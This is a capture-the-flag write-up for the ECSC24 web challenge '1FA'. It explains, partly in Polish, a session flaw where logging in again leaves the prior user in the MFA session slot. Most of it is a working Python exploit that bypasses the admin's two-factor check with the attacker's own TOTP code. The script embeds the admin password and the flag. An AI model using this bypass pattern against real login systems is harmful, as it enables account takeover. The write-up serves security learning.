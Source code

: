 # 1FA - web - misc

### Vulnerability

Nowe logowanie nie kasuje poprzedniego user'a z `session["mfa_user"]`

### Solution

Steps:
    1. set mfa_login to our user
    2. set mfa_user to our user (GET /mfa)
    3. login as admin (dont follow redirect)
    4. login with our mfa

```python
import requests
import random
import cairosvg
import pyotp
import re
import io

from PIL import Image
import zxing

# steps:
# 1. set mfa_login to our user
# 2. set mfa_user to our user (GET /mfa)
# 3. login as admin (dont follow redirect)
# 4. login with our mfa

HOST = "https://1fa.ecsc24.hack.cert.pl"

USERNAME = str(random.random()) # "A" * 8
PASSWORD = "A" * 8

r = requests.Session()

r.post(f"{HOST}/register", data={
    "login": USERNAME,
    "password": PASSWORD,
    "password_rep": PASSWORD,
})

r.post(f"{HOST}/login", data={
    "login": USERNAME,
    "password": PASSWORD,
})

res = r.get(f"{HOST}/mfa-setup").text
code_svg = re.findall(r"<svg.*</svg>", res)[-1]

reader = zxing.BarCodeReader()
content = reader.decode(Image.open(io.BytesIO(cairosvg.svg2png(bytestring=code_svg))))

otp = pyotp.parse_uri(content.raw)
r.post(f"{HOST}/mfa-setup", data={
    "mfa_code": otp.now()
})

r.get(f"{HOST}/logout")

r.post(f"{HOST}/login", data={
    "login": USERNAME,
    "password": PASSWORD,
}) # redirects to /mfa

r.post(f"{HOST}/login", data={
    "login": "admin",
    "password": "RobertR@c!ng#24",
}, allow_redirects=False) # do not redirect to /mfa

res = r.post(f"{HOST}/mfa", data={
    "mfa_code": otp.now() # our mfa code
})

print(re.findall(r"ecsc24{.*}", res.text)[0]) # ecsc24{y0u'v3_w0n_7h3_r4c3}
```